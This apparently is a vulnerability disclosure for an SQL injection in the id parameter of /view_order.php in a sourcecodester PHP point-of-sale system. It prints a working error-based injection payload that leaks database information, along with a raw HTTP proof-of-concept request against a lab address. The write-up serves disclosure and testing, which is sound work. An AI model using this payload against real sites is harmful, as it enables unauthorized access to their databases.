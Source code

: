 # SQLi-6 

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html](https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /view_order.php

[+] Payload:

```http
id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)
```

POC：

```http
GET http://10.0.10.39/kruxton/view_order.php?id=1 HTTP/1.1
Host: 10.0.10.39
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=6cco6p8q0cm6uim065rcoisf3v
Upgrade-Insecure-Requests: 1


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image](assets/image-20240313153721-dnpqayy.png)​
